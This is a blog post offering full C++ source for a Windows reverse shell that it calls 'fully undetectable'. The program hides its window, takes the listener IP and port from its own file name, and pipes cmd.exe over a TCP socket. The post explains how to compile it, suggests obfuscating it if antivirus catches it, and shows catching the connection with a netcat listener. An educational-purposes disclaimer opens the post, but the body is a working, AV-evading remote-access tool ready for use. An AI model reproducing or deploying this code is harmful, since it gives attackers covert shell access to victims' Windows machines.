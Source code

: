 ```yaml
---
title: "Fud Reverse Shell For Windows (C++)"
date: 20 December 2021
description: C++ Reverse Shell For Windows For Bypassing AV Solutions .
tags: bypass-av
words: 455
---
```


<Prompt title="Heads up!" status="warn">
All content of this blog is only for Educational Purposes ! 
Do Not Use tools or methods of this blog on any hardware or software without authorization of the owner !
</Prompt>

Today i share a c++ reverse shell source code for windows , as time of writing , its fully undetectable !
Its bypassing all antivirus solutions and works with
- Windows 11 
- Windows 10 
- Windows 8 
- Windows 7 
- Windows Server 2019 
- Windows Server 2016 

The source code is not obfuscated and if along the way get detected by av solutions , We can obfuscate it and its ready to go again !

One of the cool methods of this reverse shell is the ip and port for your listiner , Its hardcoded on name of the .exe file !

For Example your listiner ip and port is = 192.168.1.1:8080
You rename the exe file to this :
```
192x168x1x1_8080.exe
```

# How Compile It

#### First you copy the source code :
```c
#include <winsock2.h>
#include <stdio.h>
#include <string>
#include <tchar.h>
#include <Windows.h>

#pragma comment(lib,"ws2_32")
#pragma warning(disable:4996) 
WSADATA wsaData; SOCKET s1;
struct sockaddr_in R;
STARTUPINFO A;
PROCESS_INFORMATION B;
using std::string;
string getFileName(const string& s) {

	char sep = '/';
	
	#ifdef _WIN32
		sep = '\\';
	#endif
	size_t i = s.rfind(sep, s.length());
	if (i != string::npos) {
		return(s.substr(i + 1, s.length() - i));
	}

	return("");
}

int main(int argc, char *argv[])
{
	FreeConsole(); //Hide window
	WSAStartup(MAKEWORD(2, 2), &wsaData);
	string path =getFileName(argv[0]);
	path.resize(path.size() - 4); //remove .exe from the file
	//replace x to "."
	for (int i = 0; i < path.size(); i++) {
		if (path[i] == 'x') {
			path[i] = '.';
		}
	}
	//PORT and IP from the executable
	size_t i = path.rfind("_", path.length());
	string port = path.substr(i+1, i-path.length());
	string ip = path.substr(0, i);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
	R.sin_family = AF_INET;
	R.sin_port = htons(std::stoul(port, nullptr, 0));
	R.sin_addr.s_addr = inet_addr(ip.c_str());
	WSAConnect(s1, (SOCKADDR*)&R, sizeof(R), 0, 0, 0, 0);
	memset(&A, 0, sizeof(A));
	A.cb = sizeof(A);
	A.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	A.hStdInput = A.hStdOutput = A.hStdError = (HANDLE)s1;
	TCHAR c[256] = L"cm";
	TCHAR d[256] = L"d.exe";
	CreateProcess(NULL, _tcscat(c, d), 0, 0, 1, 0, 0, 0, &A, &B);

}
```
#### Second Save it with whatever name you want with .cpp extension 
For Example I Save The Source Code With This Name :
```
mine.cpp
```
You can compile this in two ways :
- Visual Studio
- MSVC Compiler
For compiling in visual studio you just have to make a new project and add the .cpp file to the project and compile for x64 .

If you dont have visual studio , you can use Microsoft MSVC Compiler Tool
<Resource
  links={[
    {
      title: "MSVC Compiler Tool",
      link: "https://docs.microsoft.com/en-us/cpp/build/reference/compiler-options?view=msvc-170",
    },
  ]}
/>

After Downloading MSVC Compiler Tool you just have to open new cmd or powershell prompt on the folder you saved .cpp file and run this command :
```
cl.exe mine.cpp
```
Thats It ! After compiling you have a exe file named mine.exe .
Rename the exe file with your listiner ip and port like this :
```
192x168x1x1_8080.exe
```
Now you just have listen a port and run the exe file on the windows system . 

# Listen a port on Windows

For listen a port on windows and get the reverse connection , i suggest netcan for windows 

<Resource
  links={[
    {
      title: "Netcan For Windows",
      link: "https://github.com/rahuldottech/netcat-for-windows/releases",
    },
  ]}
/>

After downloading netcat for windows listen a port with this command :
```
nc64.exe -lvnp 8080
```
Thats it . 
